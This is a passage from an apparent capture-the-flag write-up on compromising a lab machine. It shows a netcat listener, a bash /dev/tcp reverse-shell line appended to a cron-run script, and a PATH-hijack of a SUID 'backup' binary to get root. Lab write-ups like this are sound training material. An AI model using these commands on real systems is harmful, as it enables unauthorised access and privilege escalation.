 We can see that our reverse shell got uploaded successfully.

Now we setup a listener on our machine with `nc -lvnp 1234` and request the shell.php file we uploaded.

![](11.png)

Great! We got a shell.

# **Privilege Escalation**

After some basic enumeration, we found the following shell script.

![](12.png)

After checking the cronjobs, we find out that the file get's executed every minute.

Lucky for us, we have write permission on the file, so we can add a command that sends us a shell as `archangel`.

```bash
echo "bash -i >& /dev/tcp/10.10.10.10/9001 0>&1" >> /opt/helloworld.sh
```

![](13.png)

After setting up another listener, we receive a shell as user `archangel`.

Let's stabilize our shell with python pty and see what we can find.

![](14.png)

The is a file owned by root and has an suid bit. Let's run it.

![](15.png)

We see that the file use `cp` without any file path like `/bin/cp`.

We can exploit that by copying /bin/bash to /tmp and named `cp`. We add /tmp directory to the $PATH variable and execute the program to get shell.

```bash
cp /bin/bash /tmp/cp
chmod 777 /tmp/cp
export PATH=/tmp:$PATH
./backup
```

![](16.png)

We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
